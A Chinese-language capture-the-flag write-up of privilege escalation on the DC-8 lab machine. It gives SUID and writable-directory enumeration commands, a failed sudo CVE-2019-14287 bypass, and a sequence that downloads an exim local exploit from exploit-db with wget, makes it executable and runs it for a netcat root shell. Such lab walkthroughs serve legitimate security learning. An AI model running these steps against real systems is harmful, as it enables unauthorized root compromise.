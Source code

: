 ![shell](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\shell.png)

搜寻信息无果后尝试直接提权

```
find / -perm -u=s -type f 2>/dev/null
```

发现该用户能够执行sudo命令，但是需要密码，查看www-data对/etc/passwd的文件权限

查看www-data能够执行写入操作的所有文件

```
find / -writable -type d 2>/dev/null
```

![write](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\write.jpg)

在网站目录下找到了用户密码的加密脚本，password-hash.sh,但是当前用户没有执行权限，使用sudo被要求密码

```
find / -perm -o x -type d 2>/dev/null 
```

查找当前用户可执行的脚本，显示结果为无

![公钥](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\公钥.png)

能够查询到root用户的公钥

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpwI3lfF3nPEto2eJ06rDsWNhlqAS6A6jr8pDpZ0lMZ5WiCoLaeEbaAGckRPD7SqXwA02ovM+0YytQ1McFOaGJR5/WgnFK6B652eJdsBYSEPkJL08fb2+4d8Gd+upaC4qwMTXFTkowveFkrJNXLOknyYo3vNeK2LunqMemh8/TuWfo9g6Om0zTwc+LpepFwPqB+HhvkKKPC14tqIPgbMgQqky7bYLyhKvztrkCMd11oQeM4Ie2f8ZPpAkDCgCAb700ALOkPda28hq255dYm2gZWADh6uqpMoXKMBz9/N1CAS7HdGTbbgi0dmtWp8JLIzNW22es2Jl/zm+mFv9IXON root@dc-8
```

尝试远程免密登录无果，重新回到能以root权限执行的脚本上来

![sss](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\sss.png)

查询到sudo的版本为1.8.19p1存在CVE2019-14287，根据操作通过-1来绕过

```
sudo -u#-1 id
```

仍然要求我们输入密码，漏洞利用失败

搜寻exim的漏洞，将exp拷贝到桌面上

```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh Desktop/dc8.sh
sed -i 's/\r$//' dc8.sh   //修正脚本
python -m http.server 8000
wget http://192.168.121.135:8000/dc8.sh
chmod +x dc8.sh //赋予执行权限
./dc8.sh -m netcat 
==>得到root权限
```

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\flag.png)

查询flag即可

## 总结：

难度主要在登录进入后台后获取反向shell,主要是几条CVE都没有利用成功，不知道是修复了还是怎么，以及利用phpcode反弹shell时，脚本的问题，能够用在其他机器上的脚本现在反而不能用了，也提示我需要去尝试多个反弹shell的命令，而不是反弹一个不成功就结束了，以及提权部分，并不是在线工具搜索不到的suid就不进行尝试，一些工具的版本漏洞同样可以利用
